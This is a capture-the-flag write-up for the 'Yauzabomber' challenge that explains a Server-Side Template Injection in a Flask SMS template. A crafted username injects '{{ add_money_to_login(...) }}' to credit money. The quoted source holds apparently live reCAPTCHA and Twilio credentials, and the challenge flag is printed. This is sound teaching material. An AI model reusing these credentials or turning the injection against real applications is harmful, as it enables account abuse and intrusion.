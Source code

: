 ```yaml
---
description: Server-Side Template Injection (SSTI) in SMS template
---
```


# Yauzabomber

## Description

http://tasks.yauzactf.com:30003/

Your task is to learn a new service for fast sending messages at

## Solution

### Unintended

The `.git` directory and source code were exposed on the webserver. In `app.py`, the flag is exposed.

```python
@app.route("/shop/", methods=['POST'])
@require_authorization
def shop_form(current_user):
    item_id = int(request.form.get('id'))
    user_obj, item_obj = db.ShopItem().buy_item(item_id, current_user.id)
    shop_items = db.ShopItem().list_items()

    if user_obj is None:
        return render_template("shop.html", shop_items=shop_items, error=1)

    if item_obj.phone == '+7777-(777)-777777':
        db.User().delete_login(current_user.login)
        return render_template("shop.html", shop_items=shop_items, flag='YauzaCTF{$M$_B000mb3r_$$t1_vu1n}')

    return render_template("shop.html", shop_items=shop_items, success=1)
```

### Intended

There is a vulnerability in the "new chat" feature.

```python
@app.route("/new_chat/", methods=['POST'])
@require_authorization
def new_chat(current_user):
    phone = str(request.form.get('phone'))
    message = str(request.form.get('message'))
    recaptchaResponse = str(request.form.get('g-recaptcha-response'))

    r = requests.post('https://www.google.com/recaptcha/api/siteverify',
                      data={
                          'secret': '6LcFLRccAAAAAJGO9V52-YxMiXkrKLmT4GBp9Ysf',
                          'response': recaptchaResponse,
                          'remoteip': '127.0.0.1',
                      })
    a = request.form
    j = r.json()

    if 'success' in j and j['success']:
        if not phone.startswith('+1337') and not phone.startswith('1337'):
            # sms message
            result = sms.send_sms(number='+' + re.sub("[^0-9]", "", phone), message=message, login=current_user.login, vulnfunc=db.User().add_money_to_login)
            if result:
                db.Message().send_sms(current_user, phone, message)
        else:
            # chat private message
            db.Message().send_private(current_user, phone, message)

    return redirect('/private/')
```

When sending an SMS to a number that does not begin with `+1337` or `1337`, the `send_sms` function in `sms.py` is called, with the keyword argument `vulnfunc=db.User().add_money_to_login`.

In the `send_sms` function, Flask's `render_template_string` function is used to generate the SMS message.

```python
def send_sms(number, message, login, vulnfunc):
    try:
        message = render_template_string('Hello from ' + login + ':\n{{ message }}', message=message, add_money_to_login=vulnfunc)
    except Exception as e:
        message = str(e)
    print(message)
    message = message[:160]
    r = requests.post(
        'https://api.twilio.com/2010-04-01/Accounts/AC8af1c9ea60578bbf05fcc8073785601d/Messages.json',
        data={
            'To': number,
            'MessagingServiceSid': 'MG2361073db2b525645c80023fbf791ff8',
            'Body': message
        },
        auth=HTTPBasicAuth('AC8af1c9ea60578bbf05fcc8073785601d', '43b98a2b0de062483f43e938112d9aa0')
    )
    print(number)
    j = r.json()
    print(j)
    return j['status'] == 'accepted' and not j['error_code']
```

The resulting template is user-controllable, since `login` is our username.

```python
'Hello from ' + login + ':\n{{ message }}'
```

We can then exploit Server-Side Template Injection \(SSTI\). Since the `add_money_to_login` function is added to the template context, we can manipulate the `login` variable to invoke this function. We essentially need two accounts, with one of the usernames being:

```python
{{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}
```

![](../../.gitbook/assets/upload_1a3560d2825112a36522ddfecb9b5b1c.png)

Then, when sending an SMS message, the following is called:

```python
render_template_string(
    'Hello from {{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}:\n{{ message }}', 
    message=message, 
    add_money_to_login=vulnfunc
)
```

When rendering the template, the `add_money_to_login` function is called, adding money to our other account.

![](../../.gitbook/assets/upload_8ef68bbab074e004b0c4c3a59ef8d74a.png)

Now that we have sufficient money, we can buy the flag!

![](../../.gitbook/assets/upload_170e466c6e5c955c491187bcd70bd2c3.png)

